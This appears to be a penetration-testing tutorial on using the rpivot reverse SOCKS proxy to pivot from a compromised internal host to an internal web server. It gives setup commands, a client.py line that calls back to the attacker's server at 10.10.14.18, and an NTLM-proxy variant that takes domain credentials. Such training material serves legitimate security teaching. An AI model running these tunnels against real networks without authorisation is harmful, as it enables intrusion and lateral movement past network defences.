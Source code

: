
[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

```shell-session
git clone https://github.com/klsecservices/rpivot.git
```

```shell-session
sudo apt-get install python2.7
```
#### Alternative Installation of Python2.7

  Web Server Pivoting with Rpivot

```shell-session
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```


#### Running server.py from the Attack Host
```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

#### Transfering rpivot to the Target

```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
#### Running client.py from Pivot Target

```shell-session
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
